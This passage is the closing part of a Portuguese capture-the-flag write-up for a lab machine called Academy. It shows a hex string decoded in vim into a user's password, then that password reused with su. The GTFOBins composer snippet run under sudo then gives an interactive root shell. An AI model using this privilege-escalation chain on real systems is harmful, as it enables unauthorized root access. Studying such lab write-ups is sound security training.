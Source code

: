 - Abrir um arquivo em modo de ediçaõ com `vim`

  ```bash
  vi /tmp/test
  ```

- Pressione `Esc` para entrar em modo de comando e digite `:% !xxd`. Isto irá converter o conteúdo atual do arquivo para hexadecimal.

- Agora pressionando a tecla `i` vai ativar o modo de inserção (insert mode), onde vamos colar o conteúdo HEX obtido logo após o valor `00000000:`.

- Pressionando `Esc` novamente para retornar no modo commando e digitando `:% !xxd -r` fará que o conteudo exa seja convertido para ASCII.

- Você poderá salvar e sair a partir do comando `:wq!`  mas neste momento já deve ter visto o conteúdo convertido do valor HEX. Abaixo o output do arquivo que criei para realizar esta conversão:

  ```bash
  cat /tmp/test                    
  mrb3n_Ac@d3my!
  ```

Como **mrb3n** é um dos usuários desta máquina este pode ser possivelmente a sua senha, o que foi confirmado a partir da execuçaõ do comando `su mrb3n` e digitando a senha encontrada.

Enumerando suas permissões, notei que ele não é membro de nenhum grupo especial na máquina porém possui privilégios para executar o binário **composer** com privilégios de root.

```bash
mrb3n@academy:~$ id
uid=1001(mrb3n) gid=1001(mrb3n) groups=1001(mrb3n)
mrb3n@academy:~$ sudo -l
[sudo] password for mrb3n: 
Matching Defaults entries for mrb3n on academy:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User mrb3n may run the following commands on academy:
    (ALL) /usr/bin/composer
```

### Abusando das permissões de `sudo`

Buscando no [GTFOBins](https://gtfobins.github.io/gtfobins/composer/) vi que é possivel escalar privilégios utilizando o composer a partir da execução do snippet abaixo, que funcionou sem grandes problemas:

```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

Como **root**, finalmente obtive a flag no caminho `/root/root.txt`

```bash
root@academy:~# id
uid=0(root) gid=0(root) groups=0(root)
root@academy:~# cat root.txt 
<redacted>
root@academy:~#
```

Espero que tenham gostado!

Vejo vocês novamente em breve! :smiley:
